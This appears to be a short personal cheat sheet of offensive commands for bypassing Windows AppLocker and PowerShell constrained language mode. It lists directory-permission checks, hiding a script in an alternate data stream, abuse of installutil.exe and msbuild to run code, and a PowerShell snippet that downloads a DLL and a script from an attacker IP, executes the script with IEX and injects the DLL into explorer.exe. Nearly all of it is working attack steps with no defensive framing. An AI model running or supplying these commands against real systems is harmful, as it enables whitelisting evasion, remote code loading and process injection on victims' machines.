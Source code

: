 # Look for perms


- https://www.g0dmode.biz/active-directory-enumeration/applocker-enumeration

- Search for writable directories
```cmd
accesschk.exe "student" C:\Windows -wus
```
- Search for executable directories:
```cmd
icacls.exe C:\Windows\Tasks
```

- alternate data streams
```
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

- psh language modes:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

- reflective dll loader, put this in bypass.exe
```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.192/bruh.dll')
(New-Object System.Net.WebClient).DownloadString('http://192.168.45.192/Invoke-ReflectivePEInjection.ps1') | IEX
$procid = (Get-Process -Name explorer).Id
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
- msbuild
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Msbuild.exe MSBUILDLoader.csproj
```

- check if applocker blocking:
```
Get-WinEvent -LogName "Microsoft-Windows-AppLocker/MSI and Script" -MaxEvents 10
```
